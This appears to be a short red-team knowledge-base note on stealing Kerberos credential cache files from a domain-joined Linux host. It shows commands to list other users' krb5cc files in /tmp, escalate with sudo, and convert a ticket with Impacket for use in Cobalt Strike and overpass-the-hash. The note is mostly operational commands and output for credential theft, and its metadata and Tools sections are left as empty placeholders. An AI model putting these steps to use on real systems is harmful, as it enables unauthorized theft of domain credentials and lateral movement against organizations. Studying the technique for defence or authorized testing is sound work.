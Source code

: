# Linux Credential Cache
Kerberos Credential Cache (ccache) files store the Kerberos credentials, usually a TGT, of a user authenticated to a domain-joined Linux machine. With it you can request a service ticket (TGS) for any other service in the domain.

``````sh
proxychains ssh svc_oracle@10.10.17.12
svc_oracle@nix-1:~$ ls -l /tmp/
total 20
-rw------- 1 john      domain users 1442 Fen  16 18:13 krb5cc_1404221486_AegEwB
-rw------- 1 svc_oracle domain users 1441 Feb 16 18:05 krb5cc_1404221620_WdEgwg

sudo -l
sudo -i
``````

For Cobalt Strike the linux ccache needs to be converted via the following **Impacket** commands to make it compatible with the `kerberos_ccache_use` command. After that the kirbi can be used with [[Overpass-the-Hash]] and a sacrificial logon session.

``````sh
impacket-ticketConverter krb5cc_1404221486_AegEwB doe.kirbi

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
[*] converting ccache to kirbi...
[+] done
``````


## Tools
########
########


```meta
ttp: T1000
requirements:
results: 
description: 
```